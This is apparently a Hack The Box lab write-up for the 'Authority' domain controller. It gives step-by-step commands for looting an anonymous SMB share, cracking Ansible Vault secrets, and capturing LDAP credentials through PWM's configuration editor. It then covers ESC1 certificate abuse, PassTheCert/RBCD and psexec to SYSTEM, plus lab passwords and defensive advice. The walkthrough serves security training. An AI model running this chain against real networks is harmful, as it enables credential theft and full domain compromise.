# HTB - Authority

**IP Address:** `10.129.229.56`  
**OS:** `Windows Server 2019 Build 17763`  
**Difficulty:** `Medium`  
**Tags:** #ActiveDirectory #AnsibleVault #ADCS #ESC1 #PassTheCert #RBCD

---
## Synopsis

Authority is a medium-difficulty Windows machine that serves as a Domain Controller with an exposed SMB share containing Ansible playbooks. The Development share yields Ansible Vault-encrypted credentials which, once cracked, unlock access to a PWM (password self-service) web application running on port 8443. By abusing the PWM Configuration Editor to redirect an LDAP connection test to an attacker-controlled listener, cleartext credentials for the `svc_ldap` service account are captured, granting a WinRM foothold. Privilege escalation exploits a misconfigured AD CS certificate template (CorpVPN, ESC1) that allows Domain Computers to enroll with an arbitrary Subject Alternative Name. Since the default MachineAccountQuota permits adding computer accounts, a new machine is added, a certificate is requested as Administrator, and because PKINIT is unsupported on this DC, the PassTheCert tool is used to set up Resource-Based Constrained Delegation, ultimately impersonating Administrator via S4U2Proxy and achieving SYSTEM access.

---
## Skills Required

- Domain Controller enumeration
- SMB anonymous access enumeration
- Understanding of Ansible Vault encryption
- Active Directory Certificate Services (AD CS) concepts
- Kerberos delegation and S4U2Proxy

## Skills Learned

- Cracking Ansible Vault secrets with hashcat
- Abusing PWM Configuration Editor to capture LDAP credentials
- Enumerating and exploiting AD CS ESC1 (Enrollee Supplies Subject)
- Pass-the-Cert attack via LDAP Schannel when PKINIT is unavailable
- Resource-Based Constrained Delegation (RBCD) for domain takeover

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.229.56
```


The TTL of 127 confirms a Windows host (default TTL 128, decremented by one hop).

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.229.56 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



28 open ports identified, including standard DC services (DNS, Kerberos, LDAP, SMB) plus HTTP (80) and HTTPS (8443).

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8443,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49691,49702,58652 10.129.229.56 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 53 | DNS | Simple DNS Plus |
| 80 | HTTP | IIS 10.0 — default splash page |
| 88 | Kerberos | Microsoft Windows Kerberos |
| 389/636 | LDAP/LDAPS | Domain: authority.htb |
| 445 | SMB | Signing enabled and required |
| 5985/47001 | WinRM | Microsoft HTTPAPI 2.0 |
| 8443 | HTTPS | Apache Tomcat — self-signed cert CN=172.16.2.118 |
| 9389 | ADWS | .NET Message Framing |

The target is a **Domain Controller** for `authority.htb`. The LDAP certificate SAN reveals additional names: `AUTHORITY$@htb.corp`, `authority.htb.corp`, `htb.corp`. A 4-hour clock skew is noted for later Kerberos operations.

Add the domain to `/etc/hosts`:

```bash
echo '10.129.229.56 authority.htb authority.authority.htb' | sudo tee -a /etc/hosts
```

---
## 2. Service Enumeration

### 2.1 SMB Enumeration

With standard DC ports and two web services identified, SMB anonymous access is tested to look for accessible shares:

```bash
smbclient -L //10.129.229.56 -N
```



Two non-standard shares stand out: `Department Shares` and `Development`. The `Development` share is accessible anonymously while `Department Shares` returns `ACCESS_DENIED`.

Recursively listing the Development share reveals Ansible automation playbooks:

```bash
smbclient //10.129.229.56/Development -N -c 'recurse ON; ls'
```



The share contents are downloaded for offline analysis:

```bash
mkdir -p ~/authority_smb && smbclient //10.129.229.56/Development -N -c "prompt OFF; recurse ON; lcd $HOME/authority_smb; mget *"
```

---
### 2.2 Ansible Playbook Analysis

The downloaded Ansible directory contains four roles: ADCS, LDAP, PWM, and SHARE. The `ADCS` role hints at Active Directory Certificate Services being installed. The `PWM` role is the most interesting as it likely configures the application running on port 8443.

```bash
tree
```



The PWM role's `defaults/main.yml` contains three Ansible Vault-encrypted secrets, and `templates/tomcat-users.xml.j2` has plaintext Tomcat credentials:

```bash
cat PWM/defaults/main.yml
cat PWM/templates/tomcat-users.xml.j2
```



**Recovered (Tomcat - not directly useful as manager is not exposed):**
- `admin:T0mc@tAdm1n` (manager-gui)
- `robot:T0mc@tR00t` (manager-script)

**Ansible Vault secrets found:**
- `pwm_admin_login`
- `pwm_admin_password`
- `ldap_admin_password`

---
### 2.3 Cracking Ansible Vault Secrets

Each vault blob is extracted to a file and converted to a hashcat-crackable format using `ansible2john.py`. All three hashes are cracked with hashcat mode 16900:

```bash
grep -A6 'pwm_admin_login' PWM/defaults/main.yml | tail -6 | sed 's/^[[:space:]]*//' > vault1
grep -A6 'pwm_admin_password' PWM/defaults/main.yml | tail -6 | sed 's/^[[:space:]]*//' > vault2
grep -A6 'ldap_admin_password' PWM/defaults/main.yml | tail -6 | sed 's/^[[:space:]]*//' > vault3
python3 /usr/share/john/ansible2john.py vault1 | cut -d: -f2 > vault_hashes
python3 /usr/share/john/ansible2john.py vault2 | cut -d: -f2 >> vault_hashes
python3 /usr/share/john/ansible2john.py vault3 | cut -d: -f2 >> vault_hashes
hashcat -m 16900 vault_hashes /usr/share/wordlists/rockyou.txt
```



All three vaults share the same password: `!@#$%^&*`. Decrypting with `ansible-vault`:

```bash
cat vault1 | ansible-vault decrypt
cat vault2 | ansible-vault decrypt
cat vault3 | ansible-vault decrypt
```



**Recovered:**
- `pwm_admin_login` = `svc_pwm`
- `pwm_admin_password` = `pWm_@dm!N_!23`
- `ldap_admin_password` = `DevT3st@123`

---
### 2.4 PWM Web Application

Browsing to the Tomcat service on port 8443 reveals a PWM password self-service application in **Configuration Mode**:

```
https://10.129.229.56:8443/pwm/private/login
```



Attempting to log in with `svc_pwm / pWm_@dm!N_!23` triggers Error 5017, revealing the LDAP bind DN `CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb`:



The Configuration Manager at `/pwm/private/config/manager` accepts the password `pWm_@dm!N_!23`:



The Configuration Editor at `/pwm/private/config/editor` provides full access to application settings:



---
## 3. Foothold

### 3.1 LDAP Credential Capture

The PWM Configuration Editor exposes the LDAP connection settings, including a "Test LDAP Profile" button. The application is configured to bind to `ldaps://authority.authority.htb:636` as `svc_ldap`. By changing the LDAP URL to point to the attacker machine using plaintext LDAP, the bind credentials can be captured:

Navigate to **LDAP > LDAP Directories > default > Connection** and add a new LDAP URL pointing to the attacker's IP:



Start a netcat listener and click "Test LDAP Profile":

```bash
nc -lvnp 389
```



The cleartext LDAP bind credentials arrive on the listener:

**Recovered:** `svc_ldap:lDaP_1n_th3_cle4r!`

---
### 3.2 WinRM Access

Using the captured credentials to connect via WinRM:

```bash
evil-winrm -i 10.129.229.56 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
```



🏁 **User flag obtained:** `C:\Users\svc_ldap\Desktop\user.txt`

---
## 4. Privilege Escalation

### 4.1 AD CS Enumeration (ESC1)

The `ADCS` Ansible role found earlier hints at Active Directory Certificate Services. Using certipy to enumerate vulnerable certificate templates:

```bash
certipy-ad find -u svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.229.56 -vulnerable
```



The **CorpVPN** template is vulnerable to **ESC1**:
- `Enrollee Supplies Subject: True` — the requester controls the SAN
- `Client Authentication: True` — the cert can be used for AD authentication
- `Requires Manager Approval: False`
- Enrollment Rights: **Domain Computers** (not Domain Users)

The `svc_ldap` user has `SeMachineAccountPrivilege`, allowing it to add computer accounts to the domain. The default `MachineAccountQuota` of 10 is in effect.

**Attack chain:** Add a machine account → enroll it in the CorpVPN template with `administrator@authority.htb` as the SAN → authenticate with the certificate.

---
### 4.2 Certificate Abuse and Domain Takeover

A new computer account is added and used to request a certificate as Administrator:

```bash
impacket-addcomputer 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 'YOURPC$' -computer-pass 'Password123!' -dc-ip 10.129.229.56
certipy-ad req -username 'YOURPC$' -password 'Password123!' -ca AUTHORITY-CA -dc-ip 10.129.229.56 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
```



Attempting PKINIT authentication fails with `KDC_ERR_PADATA_TYPE_NOSUPP` — this DC does not support certificate-based Kerberos. Instead, the PassTheCert approach is used to authenticate via LDAP Schannel and set up RBCD:

```bash
openssl pkcs12 -in administrator_authority.pfx -nocerts -out admin.key
openssl pkcs12 -in administrator_authority.pfx -clcerts -nokeys -out admin.crt
```


```bash
python3 PassTheCert/Python/passthecert.py -dc-ip 10.129.229.56 -crt admin.crt -key admin.key -domain authority.htb -port 636 -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from 'YOURPC$'
```

With RBCD configured, S4U2Proxy is used to impersonate Administrator and obtain a CIFS service ticket:

```bash
sudo ntpdate 10.129.229.56 && impacket-getST -spn 'cifs/authority.authority.htb' -impersonate Administrator 'authority.htb/YOURPC$:Password123!'
```



Finally, PsExec is used with the Kerberos ticket to get a SYSTEM shell:

```bash
sudo ntpdate 10.129.229.56 && export KRB5CCNAME=Administrator@cifs_authority.authority.htb@AUTHORITY.HTB.ccache && impacket-psexec -k -no-pass authority.authority.htb
```



🏁 **Root flag obtained:** `C:\Users\Administrator\Desktop\root.txt`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Nmap** reveals a Domain Controller with IIS (80) and Tomcat/PWM (8443).
2. **SMB anonymous access** to the `Development` share yields Ansible playbooks with Vault-encrypted secrets.
3. **Hashcat** cracks the Ansible Vault password (`!@#$%^&*`), revealing PWM admin credentials (`svc_pwm:pWm_@dm!N_!23`).
4. **PWM Configuration Editor** allows modifying the LDAP connection URL to redirect the "Test LDAP Profile" to an attacker listener, capturing `svc_ldap:lDaP_1n_th3_cle4r!` in cleartext.
5. **WinRM** access as `svc_ldap` provides the user flag.
6. **Certipy** identifies the CorpVPN certificate template as vulnerable to ESC1 (enrollee supplies subject, Domain Computers can enroll).
7. A **new computer account** is added (leveraging `SeMachineAccountPrivilege`) and used to request a certificate as Administrator.
8. Since PKINIT is unsupported, **PassTheCert** sets up RBCD via LDAP Schannel, and **S4U2Proxy** impersonates Administrator.
9. **PsExec** with the Kerberos ticket yields a SYSTEM shell and the root flag.

---
## Defensive Recommendations

- **Restrict anonymous SMB access:** Remove anonymous read from the `Development` share. Sensitive automation files (Ansible playbooks, configuration templates) should never be exposed.
- **Rotate and vault secrets properly:** Ansible Vault passwords should be strong and unique. Avoid storing credentials in shared playbook repositories.
- **Harden PWM deployment:** Disable Configuration Mode in production. Require LDAPS-only connections and restrict the Configuration Editor to localhost.
- **Fix AD CS templates:** Remove the `EnrolleeSuppliesSubject` flag from the CorpVPN template, or restrict enrollment to specific security groups rather than Domain Computers.
- **Reduce MachineAccountQuota:** Set `ms-DS-MachineAccountQuota` to 0 to prevent unprivileged users from adding computer accounts.
- **Enable PKINIT or enforce Kerberos policies:** While PKINIT being disabled prevented one attack path, the underlying certificate misconfiguration and RBCD abuse still led to compromise.
- **Monitor for LDAP connection changes:** Alert on PWM configuration modifications and unusual outbound LDAP connections from the DC.
